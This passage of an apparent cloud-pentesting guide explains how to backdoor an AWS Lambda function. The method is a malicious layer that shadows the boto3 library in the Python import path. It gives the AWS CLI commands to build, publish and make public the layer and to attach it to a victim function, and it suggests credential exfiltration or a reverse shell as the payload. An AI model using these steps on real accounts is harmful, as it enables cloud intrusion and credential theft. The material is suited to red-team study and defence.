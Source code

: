 These are the places:

1. /var/task
2. /opt/python/lib/python3.7/site-packages
3. /opt/python
4. /var/runtime
5. /var/lang/lib/python37.zip
6. /var/lang/lib/python3.7
7. /var/lang/lib/python3.7/lib-dynload
8. /var/lang/lib/python3.7/site-packages
9. /opt/python/lib/python3.7/site-packages
10. /opt/python

For example, the library boto3 is loaded from `/var/runtime/boto3` (4th position).

#### Exploitation

It's possible to abuse the permission `lambda:UpdateFunctionConfiguration` to **add a new layer** to a lambda function. To execute arbitrary code this layer need to contain some **library that the lambda is going to import.** If you can read the code of the lambda, you could find this easily, also note that it might be possible that the lambda is **already using a layer** and you could **download** the layer and **add your code** in there.

For example, lets suppose that the lambda is using the library boto3, this will create a local layer with the last version of the library:

```
pip3 install -t ./lambda_layer boto3
```

You can open `./lambda_layer/boto3/__init__.py` and **add the backdoor in the global code** (a function to exfiltrate credentials or get a reverse shell for example).

Then, zip that `./lambda_layer` directory and **upload the new lambda layer** in your own account (or in the victims one, but you might not have permissions for this).\
Note that you need to create a python folder and put the libraries in there to override /opt/python/boto3. Also, the layer needs to be **compatible with the python version** used by the lambda and if you upload it to your account, it needs to be in the **same region:**

{% code overflow="wrap" %}
```bash
aws lambda publish-layer-version --layer-name "boto3" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"
```
{% endcode %}

Now, make the uploaded lambda layer **accessible by any account**:

```bash
aws lambda add-layer-version-permission --layer-name boto3 \
    --version-number 1 --statement-id public \
    --action lambda:GetLayerVersion --principal *
```

And attach the lambda layer to the victim lambda function:

```bash
aws lambda update-function-configuration \
    --function-name <func-name> \
    --layers arn:aws:lambda:<region>:<attacker-account-id>:layer:boto3:1 \
    --timeout 300 #5min for rev shells
```
